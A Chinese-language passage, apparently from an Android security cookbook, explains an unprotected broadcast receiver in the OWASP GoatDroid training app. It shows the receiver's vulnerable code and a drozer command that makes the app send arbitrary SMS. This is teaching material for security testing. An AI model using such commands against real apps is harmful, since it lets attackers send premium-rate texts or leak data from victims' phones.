 代码中的关键问题是，这个应用程序将被授予`android.permission.SEND_SMS`权限，同时其`.SendSMSNowReceiver`易受攻击的接收器没有得到适当的权限保护，从而暴露给其他应用程序。

这并不是这类漏洞的全部；还有另一部分。仅仅因为接收器允许其他应用程序与其交互，并不意味着它一定可以被利用；要验证它是否可被利用，你实际上可以尝试执行本食谱后面讨论的一些命令，如果可能的话，阅读接收器的部分源代码。

以下是确定接收器如何处理`org.owasp.goatdroid.fourgoats.SOCIAL_SMS`动作的代码：

```kt
public void onReceive(Context arg0, Intent arg1) {
  context = arg0;
  SmsManager sms = SmsManager.getDefault();

  Bundle bundle = arg1.getExtras();
  sms.sendTextMessage(bundle.getString("phoneNumber"), null,
    bundle.getString("message"), null, null);
    Utils.makeToast(context, Constants.TEXT_MESSAGE_SENT, Toast.LENGTH_LONG);
}
```

代码中的关键问题是接收器直接从`bundle`对象中获取值，而没有首先检查调用应用程序或提供的值，并将其插入到`sendTextMessage`调用中。这意味着任何应用程序都将能够发送任意的、不受控制的短信。

好的，那么这就是一个经典广播接收器漏洞的样子；让我们看看如何使用 drozer 实际利用这些漏洞。

## 如何做到这一点...

要向广播接收器发送意图，你可以执行以下命令：

```kt
dz> run app.broadcast.send –-action [ACTION] –-category [CATEGORY] –-component [PACKAGE COMPONENT] –data-uri [DATA_URI] –extra [TYPE KEY VALUE] –flags [FLAGS*] –mimetype [MIMETYPE]

```

例如，在本食谱的介绍部分，我们看到了一个可以接受电话号码和短信的接收器。要攻击该接收器，你会执行以下命令：

```kt
dz> run app.broadcast.send –-action org.owasp.goatdroid.fourgoats.SOCIAL_SMS –-component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver –-extra string phoneNumber 1234567890 –-extra string message PWNED

```

执行之前的命令将向电话号码`1234567890`发送包含消息`PWNED`的文本信息。

## 它是如何工作的…

在这个食谱中，我们滥用了保护`org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceive`广播接收器的不足权限。这个组件缺乏权限保护，允许没有`SEND_SMS`权限的攻击者实际发送短信。这种危险在于，恶意攻击者可以开发针对这个接收器的应用程序，向高级服务发送短信或从设备泄露信息。

实际上，许多安卓木马和基于安卓的恶意软件都利用这种模式从受害者那里窃取钱财；有数百个实际例子。关于其中一些的好资源，请参阅*另请参阅*部分。希望这能让你意识到，对于像这样的广播接收器来说，权限不足是多么危险。

## 另请参阅
